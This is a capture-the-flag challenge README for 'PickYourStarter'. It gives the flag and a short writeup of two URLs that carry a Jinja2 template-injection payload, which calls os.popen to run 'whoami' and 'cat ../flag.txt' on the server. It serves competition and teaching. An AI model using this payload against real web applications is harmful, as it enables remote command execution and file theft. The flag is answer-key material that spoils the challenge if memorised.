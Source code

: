 # PickYourStarter

### Description
Picking a starter is hard, I hope you can do it.

### Difficulty
4/10

### Flag
PCTF{wHOS7H47PoKEmoN}

### Author
Jax

### Tester
Txnn3r (Tanner Leventry)

### Writeup
`http://127.0.0.1:5000/%7B%7Burl_for.__globals__.os.__dict__.popen(request.args.file).read()%7D%7D?file=whoami`

`http://chal.pctf.competitivecyber.club:5555/%7B%7Burl_for.__globals__.os.__dict__.popen(request.args.file).read()%7D%7D?file=cat%20../flag.txt`
